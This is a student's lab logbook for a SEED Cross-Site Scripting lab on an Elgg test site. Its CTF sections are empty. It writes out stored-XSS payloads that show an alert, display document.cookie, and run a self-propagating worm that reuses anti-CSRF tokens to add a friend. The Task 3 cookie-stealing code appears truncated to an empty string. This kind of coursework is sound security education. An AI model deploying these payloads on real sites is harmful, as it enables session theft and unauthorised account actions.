


This logbook is divided into 2 sections, one referring to the CTF - week 10, and another concerning the tasks for week 10.

# CTF - Week 10

## Challenge 1
<!---

-->

## Challenge 2

<!---

-->
____
____

# Cross-Site Scripting (XSS) Attack Lab

## Task 1: Posting a Malicious Message to Display an Alert Window

During this task, we needed to embed a JavaScript program in a profile, such that when another user viewed its profile, an alert window would appear. We chose Alice's Profile. For that we clicked on the option to edit the profile and in the brief description, we added the following code:
```js
<script>
    alert("XSS");
</script> 
```
After that, from another user's profile, when clicking on Alice's profile we would see a pop-up window with the message *XSS*, as we can see in the picture below:


## Task 2: Posting a Malicious Message to Display Cookies

The goal for this task was to embed a JavaScript program in a profile, such that when the user viewed their own profile, an alert window would appear with the user's cookies. For that we changed the code inserted in the brief description to:

```js
<script>
    alert(document.cookie);
</script>
```

After that, logged into Alice profile, on her profile page, we would see a pop-up window with the message with the cookies, as we can see in the picture below:


##  Task 3: Stealing Cookies from the Victim's Machine

In this task, the goal was to use the JavaScript code to send cookies to another profile. In this case, Alice was the attacker and she would be able to see other's cookies. For that, we changed the code in the brief description to:
```js
<script>
    document.write('');
</script>
```
We can see the result when we used the *netcat* program in the picture below:


## Task 4: Becoming the Victim's Friend

The goal for task 4 was to perform an attack that would write an XSS worm that added Samy as a friend to any other user that would visit Samy's page. For that, we started by seeing what happened when a friend request was sent.



We concluded that the friend id, the variables *__elgg_ts* and *__elgg_token* and the cookies were sent to the server in every friend request. 

Then, it was needed to add in the *"About Me"* field (using Edit HTML option), the JavaScript program to send out the HTTP request to add a friend.

```js
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;

  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the HTTP request to add Samy as a friend.
  var sendurl= "http://www.seed-server.com/action/friends/add" + "?friend=59" + token + ts;
  
  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
</script>
```
After that, we checked that in other users' profiles we were able to add Samy as friend only by seeing his profile.



#### **Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?**

Lines 1 and 2 get the values of the *__elgg_ts* and *__elgg_token* variables. These values are used against Cross Site Request Forgery attacks. The values change every time a page is loaded, so they need to be accessed every time.

#### **Question 2:  If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?**
No, if the application only provided the Editor mode, the attack would not be successful since this mode adds extra HTML and some symbols change.
